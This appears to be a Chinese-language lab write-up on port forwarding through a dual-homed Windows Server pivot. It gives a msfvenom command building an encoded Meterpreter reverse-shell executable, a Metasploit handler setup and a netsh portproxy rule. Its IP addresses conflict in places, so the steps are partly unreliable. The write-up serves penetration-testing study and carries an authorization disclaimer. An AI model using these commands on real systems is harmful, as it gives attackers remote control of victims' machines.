

---
title: 端口转发实操
date: 2025-10-27 14:46:19
tags: [网络安全, 端口转发, 渗透测试]
---

# 端口转发实操

## 实验环境配置

### 网络拓扑结构
- **攻击机**: Kali Linux (192.168.37.129)
- **跳板机**: Windows Server 2016 (双网卡——Nat,仅主机)
- **靶机**: Windows 10 (192.168.20.132)

### 网络配置检查

Kali Linux 网络配置

ifconfig——192.168.37.129

Windows 10 网络配置

ipconfig——192.168.37.132

win server 2016 同样ipconfig一下，看到图示分别连接内外的两个网卡

故而充当跳板机
****
## 端口转发实战步骤

### 1. 环境连通性测试

测试 Kali 到 Win10 的连通性

ping 192.168.20.132

测试跨网段连通性

ping 192.168.20.129

发现37的网段通，20的网段不通
****
用win10去pingkali也是不通的

环境没问题
### 2. 生成反向Shell木马

使用 msfvenom 生成木马文件

msfvenom -e x64/xor_dynamic \-p windows/x64/meterpreter/reverse_tcp \LHOST=192.168.37.129 \LPORT=5555 \-f exe > win_shell.exe
****
****
### 3. 配置Metasploit监听
bash
启动 msfconsole
msfconsole
设置监听模块
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.37.129
set LPORT 5555
exploit
****
****
### 4. 端口转发配置

在跳板机上配置端口转发

netsh interface portproxy add v4tov4 \listenport=8080 \listenaddress=0.0.0.0 \connectport=5555 \connectaddress=192.168.37.132
****
****

成功看到win10的localhost

****
****
## 常见问题解决

### 报错学习：Kali 网络连接问题
如果 Kali 无法上网，手动启动网卡：

****

## 实验总结

通过本次实验，我们掌握了：
1. 多网段环境下的端口转发技术
2. 反向Shell的生成和监听配置
3. 跨网段渗透测试的基本流程
4. 常见网络问题的排查方法

**注意事项**: 本实验仅用于网络安全学习目的，请在合法授权的环境中进行测试。